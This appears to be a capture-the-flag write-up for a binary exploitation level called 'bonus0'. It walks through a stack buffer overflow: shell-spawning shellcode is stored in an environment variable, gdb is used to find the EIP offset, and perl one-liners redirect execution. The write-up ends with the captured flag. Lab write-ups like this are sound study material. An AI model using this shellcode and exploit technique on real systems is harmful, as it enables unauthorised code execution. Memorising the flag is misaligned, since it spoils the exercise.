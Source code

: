 # bonus0

If we dissasemble the code, we see that we can copy 2 strings (get in stdin) in a larger string.

We want to execute a shellcode (actually we don't have any functions to exec `bin/ls` in the code).

It's impossible to do that because a shellcode is at least 23 char and the strings are 20 char...

An other way is to have the shellcode on an environnement variable and jump on this variable (do this by follow [this tutorial](https://www.hacktion.be/buffer-overflow-variable-environnement/)).

## Exploit
First, we can add the environnement variable that contains the shellcode.
```bash
export SHELLCODE="`perl -e 'print "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"'`"
```
Then, we need to know the variable address, add this C script, compile and execute it
```c
/* /tmp/getenv.c */

/*
compile:
gcc -g -w /tmp/getenv.c -o /tmp/getenv
execute (pwd = /tmp)
./getenv SHELLCODE
*/
#include <unistd.h>

int main(int ac, char ** av) {
	if (ac < 2)
		printf("./getenv <env-var-name>");
	else
		printf("%s address: 0x%lx\n", av[1], getenv(av[1]));
	return 0;
}
```
```bash
> gcc -g -w /tmp/getenv.c -o /tmp/getenv && cd /tmp && ./getenv SHELLCODE && cd -
SHELLCODE address: 0xbffff845
```

Then, we need to know how to overwrite the EIP to jump to `0xbffff845`:
```
> gdb bonus0
(gdb) $ run
 -
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 -
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
...
(SEGFAULT) -> Invalid $PC address: 0x42424242
EIP: 0x42424242 ('BBBB')
```
So to overwrite the EIP, we need to send the address on the second string.

Get the offset of the EIP using our pattern program:
```bash
[computer]
> ./pattern.py create 200
AAA~AAA}AAA|AAA{AAAzAAAyAAAxAAAwAAAvAAAuAAAtAAAsAAArAAAqAAApAAAoAAAnAAAmAAAlAAAkAAAjAAAiAAAhAAAgAAAfAAAeAAAdAAAcAAAbAAAaAAA_AAA^AAA]AAA[AAA@AAA?AAA>AAA=AAA<AAA;AAA:AAA9AAA8AAA7AAA6AAA5AAA4AAA3AAA2AAA1
... gdb on VM
> ./pattern.py search 'AA|A' 200
found at offset: 9

[VM]
> gdb bonus0
(gdb) $ run
 -
01234567890123456789
 -
AAA~AAA}AAA|AAA{AAAzAAAyAAAxAAAwAAAvAAAuAAAtAAAsAAArAAAqAAApAAAoAAAnAAAmAAAlAAAkAAAjAAAiAAAhAAAgAAAfAAAeAAAdAAAcAAAbAAAaAAA_AAA^AAA]AAA[AAA@AAA?AAA>AAA=AAA<AAA;AAA:AAA9AAA8AAA7AAA6AAA5AAA4AAA3AAA2AAA1
(SEGFAULT) => Invalid $PC address: 0x417c4141
EIP: 0x417c4141 ('AA|A')
```
The offset if 9.

Finally, we need to send the environnement variable with an offset of 9 on the second string and we need to entirely fill the first string to send data on the second string (if we not fill the first string with random values, all the string will be read in the first `p` call).
```bash
# first p()     | second p()
# filled with A | offset of 9 | environ var addr | to have at least 20 char (no '\0' at the end)
# A * 4095  \n  | BBBBBBBBB   | \x45\xf8\xff\xb  | BBBBBBB
> perl -e 'print "A"x4095 . "\n" . "B"x9 . "\x45\xf8\xff\xbf" . "B"x7 . "\n"' > /tmp/a ; cat /tmp/a - | ./bonus0
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

### Alternative
```
(perl -e 'print "A"x4095 . "\n" . "B"x9 . "\x26\xf8\xff\xbf" . "B"x(20 - 9 - 4) . "\n"'; cat) | ./bonus0
```

flag:
```
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
